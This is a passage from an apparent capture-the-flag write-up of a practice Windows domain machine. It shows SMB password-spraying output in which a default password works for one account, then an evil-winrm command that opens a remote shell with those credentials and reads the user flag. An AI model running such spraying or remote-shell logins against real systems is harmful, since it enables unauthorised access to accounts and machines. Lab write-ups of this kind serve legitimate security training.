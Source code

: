 ```bash
SMB         10.129.23.166   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] 
.
.
snipped
.
.
megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] 
.
.
snipped
.
.
megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.23.166   445    RESOLUTE         [-] megabank.local\resolute:Welcome123! STATUS_LOGON_FAILURE
```

**Melanie** have the default password set. Let's get shell into it using Evil-Winrm.

<img  alt="Pasted image 20240729043817" src="https://github.com/user-attachments/assets/64d1b4d4-04ec-4929-a30d-34d6b100fe37">

`melanie : Welcome123!`

## WinRM 5985

Windows Remote Management (WinRM) is a protocol developed by Microsoft, enabling administrators to **manage and control Windows-based systems remotely** Evil-winrm is a tool which use **WinRM** service to get remote shell on the box.

```powershell
$ evil-winrm -i megabank.local -u melanie -p 'Welcome123!'                
```

- **-i** for IP address
- **-u** for user
- **-p** for password

```powershell
*Evil-WinRM* PS C:\Users\melanie\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
d823709facaeec2fd3797472ddc9d51b
```

# Privilege Escalation
